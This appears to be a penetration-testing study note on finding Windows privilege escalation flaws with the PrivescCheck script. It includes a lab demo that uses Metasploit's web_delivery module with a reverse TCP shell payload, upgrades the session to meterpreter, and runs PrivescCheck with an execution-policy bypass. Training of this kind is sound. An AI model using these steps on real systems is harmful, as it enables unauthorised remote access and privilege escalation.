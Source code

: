 ```yaml
---
description: https://github.com/itm4n/PrivescCheck
---
```


# Identifying Windows Privilege Escalation Vulnerabilities

In order to elevate your privs on Windows, you mumst first, identify priv esc vulnerabilities that exist on the target system.

This process will differ greatly based on the type of target you gain access to. Privilege escalation on Windows can be performed through a plethora of techniques based on the version of Windows and the system's unique configuration.

This process can be quite tedious and time consuming and as a result it is recommended to automate the processes of identifying priv esc vulns. This can be done through the use of various automation scripts.

## &#x20;PrivescCheck

<mark style="color:red;">PrivescCheck</mark> - This script aims to enumerate common Windows configuration issues that can be leveraged for local privilege escalation. It also gathers various information that might be useful for exploitation and/or post-exploitation.

* GitHub Repo: https://github.com/itm4n/PrivescCheck

## Practice Demo

Enumerate the target.

The target doesn't have any vulnerable services running on it.

We are gonna use the module:

* <mark style="color:yellow;">exploit/multi/script/web\_delivery:</mark> Quickly fires a web server that serves a payload. It creates a payload having in mind the target system, we run that code in the target and it automatically downloads the payload.

#### Options

* <mark style="color:yellow;">set target PSH\ (Binary)</mark>
* <mark style="color:yellow;">set payload windows/shell/reverse\_tcp</mark>
* <mark style="color:yellow;">set PSH-EncodedCommand false</mark>
* <mark style="color:yellow;">set LHOST 'ourIP'</mark>

Run.

Copy the Powershell code that is generated, and run it on the target machine cmd.

We get a shell session on our attacker machine, as the student user.

We finally use the post/multi/manage/shell\_to\_meterpreter module to upgrade our session to a meterpreter session.

#### Options

* <mark style="color:yellow;">set WIN\_TRANSFER VBS</mark>

Run.

### Privilege Escalation

Go to the "<mark style="color:red;">PrivescCheck</mark>" directory in the desktop.

https://github.com/itm4n/PrivescCheck <mark style="color:red;">(See the repo for info on how to run)</mark>

In this case since we have a cmd session we will run

* <mark style="color:yellow;">powershell -ep bypass  -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"</mark>

It runs the script, and now we can go through the output to see all vulns.





